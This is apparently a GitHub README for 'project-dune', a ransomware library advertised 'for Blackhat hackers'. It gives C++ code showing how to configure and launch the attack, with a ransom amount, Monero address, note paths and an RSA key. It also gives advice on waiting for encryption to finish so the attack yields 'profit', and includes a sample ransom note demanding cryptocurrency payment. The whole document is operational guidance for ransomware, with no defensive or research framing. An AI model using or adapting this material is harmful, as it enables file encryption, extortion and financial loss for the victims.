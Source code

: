 # project-dune
An advanced customizable ransomware solution for Blackhat hackers.

## Usage

Example integration
```cpp
    std::vector<std::string> notes_to_write;
    notes_to_write.push_back("./ransom.txt");
    notes_to_write.push_back("/ransom.txt");
    // Random public key.
    std::string public_key = "-----BEGIN PUBLIC KEY-----\n"
                             "MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQC3LhafKJnVq/xa/1d40hcETsyG\n"
                             "CLSxlhXfJWERLPY14Di6EyKZj+e7+IpZF489pxnDEode2UaN/Mq0/hCy8epOrfx1\n"
                             "0BKGlxY72fPDt9MvThCs6DokeK4cIzcMEKQv4RNBF8q3winAM1SGnxLu7RWx2npF\n"
                             "ND8Xa8c7d8il4AjK5QIDAQAB\n"
                             "-----END PUBLIC KEY-----\n";
    dune::Dune dune = dune::Dune(2.0, "XMR", "your crypto address here", "You have been pwned!", notes_to_write, "tech@anon.gov", public_key);
    dune::Acknowledgement ack;
    ack.are_you_sure_you_want_to_do_this = true;
    ack.i_accept_the_risks_and_consequences_of_my_actions = true;
    ack.i_understand_it_is_illegel = true;
    dune.attack(ack, true);
```

The Dune ransomware class contains two important methods. The attack method and the constructor. The constructor accepts several required arguments to tell the malware how to behave (Ex: what crypto address to demand). The most important parameter is the PEM formatted RSA key. The RSA public key must be valid, or behavior is not guaranteed. The class requires a string vector containing absolute or relative file paths to be supplied to create many ransom notes. More, the better. The class also takes an argument specifying the amount and type of cryptocurrency to be ransomed. It also accepts a message to include in the ransom file and can be left as an empty string. Also, there is an email parameter to have so that the victim can contact the ransomer.

## Notes
The attack method creates a thread that will encrypt all files in the background. Since this could take a while, you will need to create a while loop to wait until verify_done returns true. Remember to sleep between calls to it, or it will slow the encryption. You must do this to keep the thread alive, or encryption will likely result in corrupt files and no profit.

Example:
```cpp
dune.attack(ack, true);

while (!dune.verify_done()) {
    std::this_thread::sleep_for(std::chrono::milliseconds(5000));
}
```

This is an example Dune ransonware note file:
```
Message from hacker: You have been pwned!

You must pay in this type of cryptocurrency XMR.
The ransom amount is 2.000000 XMR.
The address to pay is: 

your address here

This address is specific to this attack. If you have multiple attacks paying another address will not help you get your files back. The full amount or more must be paid to the XMR address specified.
DO NOT MODIFY THIS OR ALL YOUR FILES WILL BE LOST (It is the RSA encrypted key for decryption)

GJXy2U6fJlThFBb9a1WwQFGfNzAlkpAmYTyrd+zddNJyxwhJrrwTStvtOM40OMtvLNiGWhIFAU7kFrQnmxzuntFse1+hzqmxz3xgUI+l5KiVgXiNvaLDmvGdvjCGg0ADjQcD/mkCW0FIIdtXXjNr+2seACPCFjYEajryMuPXekE=

Send this whole file to this email address AFTER you have paid the ransom: tech@anon.gov

If you contact this email before the ransom is paid in full it will likely be increased.


This is your victim id: d89ecb59-173c-d8de-5714-3cfa.
```

Enjor the easy integration.